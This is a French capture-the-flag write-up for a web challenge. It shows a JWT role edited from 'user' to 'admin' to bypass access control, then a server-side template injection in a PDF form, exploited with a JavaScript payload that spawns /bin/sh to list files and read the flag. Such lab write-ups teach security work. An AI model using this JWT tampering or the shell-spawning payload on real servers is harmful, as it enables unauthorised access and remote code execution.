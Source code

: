 ![Desc](images/desc.png)

On part d’une page web sur laquelle on peut remplir une sorte de formulaire, après quelques essais et manipulations avec BurpSuite on n’en extrait rien d’utile.

Une page de connexion est disponible (`/login`), ainsi qu'une page pour créer un compte (`/register`), on peut donc se créer un compte avec les credentials `test:test` par exemple :

![Connection](images/connect.png)

Nous ne sommes pas connecté en tant que `test` mais en tant que `user`, en regardant nos cookies de sessions on se rend compte que un token JWT nous est attribué lors de notre connexion avec le rôle `user` :

![Token1](images/token1.png)

En étant connecté et en cliquant dans la barre en haut à gauche sur "Justificatif" (`/name_form`) :

![Refuse](images/refus.png)

On obtient un message :

```
Accès refusé

Cet utilisateur n'a pas les accès nécessaires.
```

Un peu plus haut nous avions remarqué que notre rôle dans le token était `"user"`, on le change en mettant `"admin"` à la place avec https://token.dev/ et on le modifie également dans notre navigateur :  

![Token2](images/token2.png)

![Newform](images/newform.png)

On obtient accès à la page Justificatif :

![Just](images/just.png)

![pdf1](images/pdf.png)

Sur cette page on fournit deux champs libres : `Nom` et `Prénom`.

Quand on soumet ce formulaire, le serveur :

- Récupère ces valeurs dans le body de notre requête
- Les injecte dans un template pour générer un Justificatif de présence au format PDF, comportant :

```
Nom : <ton nom>
Prénom : <ton prénom>
Date : <date du jour>
```
- Et enfin envoie ce PDF 

Nous pouvons rapidement trouver la faille, une Server-side template injection, en effet le champ `Nom` est vulnérable, quand on rentre la valeur `{{7*7}}` le serveur nous renvoit `49` :


![vuln](images/vuln.png)


En testant différents types d’injections avec persévérance, on peut constater que le template engine n’interprète que du JavaScript et que c'est sûrement un moteur de template Node.js.

En faisant quelques recherches du type "SSTI Javascript" on trouve le bon [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md#lodash---command-execution) :

```javascript
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","id;ls"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```

![vuln](images/payload.png)

Il nous permet de lister les fichiers, il ne reste plus qu'à le modifier pour récupérer le flag :

```javascript
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","cat flag.txt"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```
![vuln](images/flag.png)

**Flag**

`SHLK{JwT_bYpaS5_2_RCe}`